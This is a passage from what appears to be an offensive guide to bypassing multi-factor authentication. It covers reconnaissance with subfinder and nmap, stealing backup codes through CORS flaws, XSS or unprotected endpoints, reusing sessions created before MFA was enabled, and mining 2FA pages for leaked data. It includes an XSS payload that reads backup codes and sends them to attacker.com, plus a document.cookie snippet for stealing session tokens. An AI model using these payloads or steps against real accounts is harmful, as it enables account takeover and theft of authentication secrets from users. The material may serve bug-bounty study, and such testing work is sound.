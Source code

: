 `subfinder -d target.com | tee subdomains.txt nmap -p 443 --script http-title -iL subdomains.txt`

If an older version exists, **try logging in without MFA.**

#### 2) Backup Codes

Steal or generate backup codes if access controls are weak.

1. **Look for security misconfigurations** that expose backup codes:

- **CORS misconfigurations**: Check if an attacker-controlled website can read API responses.
- **XSS vulnerabilities**: Inject JavaScript to steal codes.
- **Unprotected API endpoints**: Check `/user/backup_codes` or similar.

**2. Extract backup codes** using one of the found vulnerabilities.

**3. Use the stolen codes** to authenticate and bypass MFA.

**Example XSS Payload to Steal Backup Codes:**

```bash
fetch("https://target.com/api/backup_codes")   .then(response => response.text())   .then(data => fetch("https://attacker.com/steal?codes=" + encodeURIComponent(data)));
```

If successful, the attacker now has valid **MFA bypass codes.**

#### 3) Previous Sessions

Use old sessions if not terminated after 2FA setup.

1. **Log in before MFA is enabled.**
2. **Save session cookies** or authentication tokens.
3. **Ask the user to enable MFA** or wait for them to do it.
4. **Reuse the old session** to access the account **without completing MFA.**

**Example: Stealing Session Tokens with JavaScript**

```js
console.log(document.cookie);
```

If a valid session cookie exists, the attacker can **reuse it to bypass MFA.**

### Additional Exploits

#### 1) Information Disclosure

Look for sensitive data on 2FA pages.

1. **Visit the 2FA page** and inspect the page source or network requests.
2. Look for **email addresses, phone numbers, security questions, or partial OTPs.**
3. Use this leaked data to **phish the user, brute-force the OTP, or reset the password.**

**Example: Finding Leaked Data in Network Requests (Using Burp Suite)**

1. Enable **Burp Proxy** and navigate to the 2FA page.
2. Look for **server responses** containing hints like:

- `Your OTP starts with 123***`
- `Your registered email: user@example.com`
- `Last four digits of your phone: 5678`

